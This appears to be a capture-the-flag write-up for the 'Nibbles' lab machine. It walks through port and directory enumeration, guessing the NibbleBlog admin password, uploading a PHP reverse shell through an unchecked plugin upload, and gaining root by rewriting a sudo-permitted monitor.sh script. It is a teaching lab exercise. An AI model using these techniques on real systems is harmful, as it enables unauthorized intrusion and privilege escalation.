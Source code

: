 # About
Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most. 
# Enumeration
```
nmap 10.129.23.16 -p- -sV -sC --open
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Web
First you need to find the actual blog on the webpage

```
nibbleblog
```

The blog page is being run by NibbleBlog. Lets continue by doing some Web Directory enumeration and see what we can find.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.23.16/nibbleblog/FUZZ -recursion -recursion-depth 1
```

```
content                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 39ms]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 43ms]
admin                   [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 41ms]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 40ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 40ms]
languages               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 41ms]
```

Testing one of these directories shows us it has directory lists enabled.

![](Images/Pasted%20image%2020250502102541.png)

We can find the users.xml file under the private directory at `/nibbleblog/content/private/users.xml`

![](Images/Pasted%20image%2020250502102639.png)

Now we just have to get a password to authenticate with and find the respective login portal.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.23.16/nibbleblog/FUZZ -e php

content                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 55ms]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 42ms]
admin                   [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 40ms]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 45ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 40ms]
languages               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 48ms]
```

`http://10.129.23.16/nibbleblog/admin.php` is our login page. Along with making a quick custom wordlist will get us authentication

```
nibble
nibbleblog
admin
nibble123
nibbles
Nibble
Nibbleblog
Nibble123
Nibbles
```

`admin:nibbles`

# Exploitation

Within Nibbleblog we found a plugin that allows file upload, lets see if we can obtain a reverse shell using this as it does not check our file extension so we can upload anything we want.

![](Images/Pasted%20image%2020250502104000.png)

```
cp /usr/share/seclists/Web-Shells/laudanum-1.0/php/php-reverse-shell.php .
```

Adjust shell to match our hostname and upload the file.

![](Images/Pasted%20image%2020250502104250.png)

Now we will call upon the file in order to execute it. `http://10.129.23.16/nibbleblog/content/private/plugins/my_image/`

![](Images/Pasted%20image%2020250502104422.png)

Upgrade our shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![](Images/Pasted%20image%2020250502104550.png)

# Priv Esc

Some mild enumeration finds us the our next step.

![](Pasted%20image%2020250502104740.png)

The account we currently have a shell on has permissions to run the file monitor.sh as root without providing a password. We can leverage this to get escalation.

Remove the original file and replace it with

```
echo -e '#!/bin/bash\nbash' > monitor.sh

#!/bin/bash
bash
```

![](Pasted%20image%2020250502105601.png)

![](Pasted%20image%2020250502105641.png)














